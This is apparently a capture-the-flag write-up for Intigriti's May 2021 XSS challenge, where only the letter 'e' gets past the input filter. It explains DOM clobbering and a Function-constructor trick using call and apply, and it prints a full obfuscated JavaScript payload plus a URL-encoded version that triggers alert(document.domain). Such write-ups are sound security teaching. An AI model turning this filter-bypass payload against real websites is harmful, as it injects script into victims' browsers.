 ```yaml
---
layout: single
title: Intigriti’s May XSS Challenge by @GrumpingouT
date: 2021-05-31
classes: wide
tags:
  - Intigriti
  - XSS
  - Challenge
  - GrumpingouT
---
```


How to execute XSS without letters, parenthesis and quotes? Read more to find out!

![share](/assets/images/intigriti/2021/05/share.jpg)

## Overview

The challenge itself is just a simple captcha program. The captcha contains a form which follows a certain naming pattern where each element has an ID of a single letter set alphabetically.

After a brief analysis, this small part catches my attention.

![vulnerable code](/assets/images/intigriti/2021/05/vulnerable-code.png)

It seems that this piece of code is most likely to be vulnerable. All I need to do is bypass the regular expression `/[a-df-z<>()!\\='"]/gi` to evaluate my code. Simple right? Well, not exactly...

An important note is that I cannot use any letters except “e”. This is tough since we need letters to do our `alert(document.domain)` payload.

However, this comment is is hinting something.

```
Allow letter 'e' because: https://en.wikipedia.org/wiki/E_(mathematical_constant)
```

## Solution

I went into the right direction and tried doing DOM clobbering? We have an element with the ID of ‘e’ which is allowed in the regular expression filter and could be used to build more characters following a well known technique called "Atomic XSS".

![dom clobbering](/assets/images/intigriti/2021/05/dom-clobbering.png)

Unfortunately, the program only evaluates once, which is enough to only decode the payload but not to execute it. I need to find a way to evaluate the code above after it has been decoded. I thought of one solution which is:

```
[]["flat"]["constructor"]("payload goes here")()
```

This proved quite hard since I need at least parenthesis to do this. Using grave accent symbols instead of parenthesis seems to work but not really.

```
[]["flat"]["constructor"]`payload goes here```
```

The problem here is that the payload shouldn’t be a string in order for this to work.

![string evaluation issue](/assets/images/intigriti/2021/05/string-evaluation-issue.png)

This was a major problem since most techniques required at least an equals sign to solve such a problem..

After a few hours messing around inside the devtools console, I managed to get “lucky”. I found two valid methods that solve this problem: `call` and `apply`

![string evaluation solution](/assets/images/intigriti/2021/05/string-evaluation-solution.png)

Now I have a few more literals to encode to get this working.

![preparing-payload](/assets/images/intigriti/2021/05/preparing-payload.png)

The full payload looks like this:

```
[][[e[0]+[]][0][4] + [e+[]][0][21] + [e*e+[]][0][1] + [e+[]][0][6]][[e+[]][0][5] + [e+[]][0][1] + [e+[]][0][25] + [e+[]][0][18] + [e+[]][0][6] + [e+[]][0][16] + [e[0]+[]][0][0] + [e+[]][0][5] + [e+[]][0][6] + [e+[]][0][1] + [e+[]][0][16]][[e+[]][0][5] + [e*e+[]][0][1] + [e+[]][0][21] + [e+[]][0][21]]`${[[e*e+[]][0][1] + [e+[]][0][21] + [e+[]][0][22] + [e+[]][0][16] + [e+[]][0][26] + [[][ [e[0]+[]][0][4] + [e+[]][0][21] + [e*e+[]][0][1] + [e+[]][0][26]]+[]][0][13] + [e[0]+[]][0][2] + [e+[]][0][1] + [e+[]][0][5] + [e[0]+[]][0][0] + [e+[]][0][23] + [e[0]+[]][0][3] + [e[0]+[]][0][1] + [e+[]][0][26] + [0.1+[]][0][1] + [e[0]+[]][0][2] + [e+[]][0][1] + [e+[]][0][23] + [e*e+[]][0][1] + [e[0]+[]][0][5] + [e[0]+[]][0][1] + [[][ [e[0]+[]][0][4] + [e+[]][0][21] + [e*e+[]][0][1] + [e+[]][0][26]]+[]][0][14]]}```
```

Lastly I need to remove the spaces and change the plus signs %2B in order to not mess up my payload when passed as a URL.

```
[][[e[0]%2Be][0][4]%2B[e%2Be][0][21]%2B[e*e%2Be][0][1]%2B[e%2Be][0][6]][[e%2Be][0][5]%2B[e%2Be][0][1]%2B[e%2Be][0][25]%2B[e%2Be][0][18]%2B[e%2Be][0][6]%2B[e%2Be][0][16]%2B[e[0]%2Be][0][0]%2B[e%2Be][0][5]%2B[e%2Be][0][6]%2B[e%2Be][0][1]%2B[e%2Be][0][16]][[e%2Be][0][5]%2B[e*e%2Be][0][1]%2B[e%2Be][0][21]%2B[e%2Be][0][21]]`${[[e*e%2Be][0][1]%2B[e%2Be][0][21]%2B[e%2Be][0][22]%2B[e%2Be][0][16]%2B[e%2Be][0][26]%2B[[][[e[0]%2Be][0][4]%2B[e%2Be][0][21]%2B[e*e%2Be][0][1]%2B[e%2Be][0][26]]%2Be][0][13]%2B[e[0]%2Be][0][2]%2B[e%2Be][0][1]%2B[e%2Be][0][5]%2B[e[0]%2Be][0][0]%2B[e%2Be][0][23]%2B[e[0]%2Be][0][3]%2B[e[0]%2Be][0][1]%2B[e%2Be][0][26]%2B[0.1%2Be][0][1]%2B[e[0]%2Be][0][2]%2B[e%2Be][0][1]%2B[e%2Be][0][23]%2B[e*e%2Be][0][1]%2B[e[0]%2Be][0][5]%2B[e[0]%2Be][0][1]%2B[[][[e[0]%2Be][0][4]%2B[e%2Be][0][21]%2B[e*e%2Be][0][1]%2B[e%2Be][0][26]]%2Be][0][14]]}```
```

Now I can paste the payload as a value to a query string parameter, for example `captcha.php?c=payload`.

Upon entering the URL, all I need is to click the submit button and the payload gets executed.

![alert](/assets/images/intigriti/2021/05/alert.png)

Thanks for reading!